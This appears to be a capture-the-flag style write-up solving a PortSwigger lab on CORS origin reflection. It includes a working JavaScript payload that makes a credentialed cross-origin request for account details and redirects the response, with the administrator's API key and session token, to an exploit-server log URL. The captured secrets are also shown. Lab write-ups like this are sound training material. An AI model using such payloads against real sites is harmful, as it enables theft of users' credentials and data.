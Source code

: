 # CORS vulnerability with basic origin reflection

## This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all origins.

## To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

login in using userid and password and check history in burpsuite
you will notice accountdetails response showing

![](images/lab1_account_details.jpg)

### step2

Access-Control-Allow-Credentials : true

send to repeater and add origin: https://example.com for testing

![](images/lab1_add_origin_url.jpg)

### step3

### HINT:

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open("get", "YOUR-LAB-ID.web-security-academy.net/accountDetails", true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location = "/log?key=" + this.responseText;
  }
</script>
```

change with the lab details

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open(
    "get",
    "https://0aa200c203d73c52802a2139008c0038.web-security-academy.net/accountDetails",
    true
  );
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location =
      "https://exploit-0a5c001703f73caf800d20a1017a00b7.exploit-server.net/log?key=" +
      this.responseText;
  }
</script>
```

deliver to the victim
in ./log url

```javascript
%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22rApqlIsfnJkx2lfbEgkLxPywjDbuKxW3%22,%20%20%22sessions%22:%20[%20%20%20%20%22uKHzK96F8cHvJMn5pKYbqCcQWbabkilK%22%20%20]
```

decode using burpsuite

```javascript
  "username": "administrator",  "email": "",  "apikey": "rApqlIsfnJkx2lfbEgkLxPywjDbuKxW3",  "sessions": [    "uKHzK96F8cHvJMn5pKYbqCcQWbabkilK"  ]
```

submit apikey
